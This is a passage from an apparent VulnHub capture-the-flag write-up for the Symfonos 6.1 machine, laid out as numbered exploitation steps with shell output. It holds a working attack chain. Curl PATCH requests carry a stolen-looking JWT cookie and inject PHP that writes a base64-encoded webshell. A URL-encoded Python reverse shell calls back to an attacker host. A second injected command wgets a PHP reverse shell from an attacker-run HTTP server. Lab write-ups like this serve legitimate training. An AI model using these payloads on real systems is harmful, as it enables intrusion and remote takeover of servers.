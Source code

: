 		curl -H "Content-Type: application/json" -X PATCH "http://$ip:5000/ls2o4g/v1.0/posts/1" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDUxNTYwOTIsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.K2htM7cr61qekEVl4ueWKvblmQAmTbMMg7LaQgPvIb4" -d $'{"text":"file_put_contents(\'shell.php\', base64_decode(\'PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==\'));"}'

		{"created_at":"2020-04-02T04:41:22-04:00","id":1,"text":"file_put_contents('shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg=='));","user":{"display_name":"achilles","id":1,"username":"achilles"}}
		```
		- Webshell is inserted to the body of `/post`, however, the code is not executed yet.
	4. Execute our payload by visting `/post`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1]
		└─# curl http://192.168.110.25/posts/
		```
	5. Obtain a shell
		```
		# Enter this in your browser
		http://192.168.110.31/posts/shell.php?cmd=python%20-c%20%27socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.110.4",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")%27
		```
		![](Pasted%20image%2020220211041107.png)
		![](Pasted%20image%2020220211041137.png)
		<iframe width="720" height="500" src="https://www.youtube.com/embed/GuV1hNazefo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

7. Alternative, bypassing `htmlspecialchars` by downloading a webshell directly onto the webserver
	1. Insert php code to download `php-reverse-shell.php` into the body of `/post`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit/api]
		└─# curl -H "Content-Type: application/json" -X PATCH "http://$ip:5000/ls2o4g/v1.0/posts/1" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDUxNTYwOTIsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.K2htM7cr61qekEVl4ueWKvblmQAmTbMMg7LaQgPvIb4" -d $'{"text":"system(\'wget 192.168.110.4/php-reverse-shell.php\')"}' --header "Content-Type: application/json" 
		
		{"created_at":"2022-02-10T23:15:45.778410883-05:00","id":6,"text":"system('wget 192.168.110.4/php-reverse-shell.php')","user":{"display_name":"achilles","id":1,"username":"achilles"}}
		```
	2. Start a python http server hosting `php-reverse-shell.php`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit/api]
		└─# python3 -m http.server 80
		Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
		```
	3. Execute the php code to download `php-reverse-shell.php`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1]
		└─# curl http://192.168.110.25/posts/
			